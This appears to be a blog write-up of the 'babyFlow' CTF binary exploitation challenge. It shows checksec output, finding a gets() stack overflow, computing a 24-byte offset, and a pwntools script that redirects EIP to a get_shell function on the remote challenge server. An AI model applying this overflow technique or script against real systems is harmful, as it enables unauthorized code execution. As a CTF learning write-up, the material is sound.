 ```yaml
---
layout: post
title: "babyFlow"
date: 2023-02-18
categories: [ctf, challenge-pwn]
image: /assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png
---
```


# ictf.ninja -  babyFlow

*Category : Binary Exploitation*

Challenge called babyFlow that was done in this writeup

Let start by analyze binary with File command
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/babyFlow.png)


From above, File Command give us three descriptions in which
- The file is running under architecture of 32 bit
- The word dynamically linked meaning that some functions are loaded from my pc
- The word not stripped meaning that binary functions' name are preserved

Let check security of binary and i can see that it is basically doesnot have any security that i need to worry about it
```
➜  pwn checksec babyFlow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/blackninja23/Documents/ctf/ninjactf/pwn/babyFlow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


Open binary with ghidra, i can see that function get is used

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/gets.png)

Use manual page of linux, `man gets`,i can see that it is vulnerable to buffer overflow
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getsvuln.png)

Verify by sending more 'A's to the inputs and i got segmentation fault in which it is meaning to be overflow of buffer
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/bufferoverflow.png)

Analyze more in ghidra, i can see that i have function called get_shell in which it gives shell
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getshell.png)

With Logic that i have is that i need to overflow butter to the instruction pointer and give instruction pointer that address of get_shell so as to get shell

But first i need to find offset in which i would fill before affect instruction pointer.

With this, I will use cyclic command to generate random characters with different value after 4 bytes
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/offset.png)

Second, I will use pwndbg to run my binary then send those value of size 100
*Command*
```
gdb ./babyFlow
```
After send those value, i can see that EIP take value of 'gaaa'(0x61616167)
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIP.png)

Use cyclic command, we can get offset of value 24
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPo.png)

First I would check if i can overwrite after 24 bytes sent and so we generate random value of 'A','B','C'

```
➜  pwn python3 -c 'print("A"*24+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAABBBB
```

By checking, i can see that i can overwrite its value of 'B'
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPOverwrite.png)

i need to send address of get_shell instead of value of 'B'

At this point, i will write python script in which i would send random 24 bytes and its address after 24 bytes and i will got shell on server but keep in mind, i already test it on binary
```
from pwn import *
add = ELF('./babyFlow')
#e = process('./babyFlow')
host = "143.198.219.171"
port = 5000
e = remote(host,port)
offset = 24
payload = b'A'* offset
payload +=p32(add.symbols['get_shell'])
print(add.symbols['get_shell'])
print(payload)
print(e.recvuntil(b'\n'))

e.sendline(payload)

e.interactive()
```

I got flag
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png)
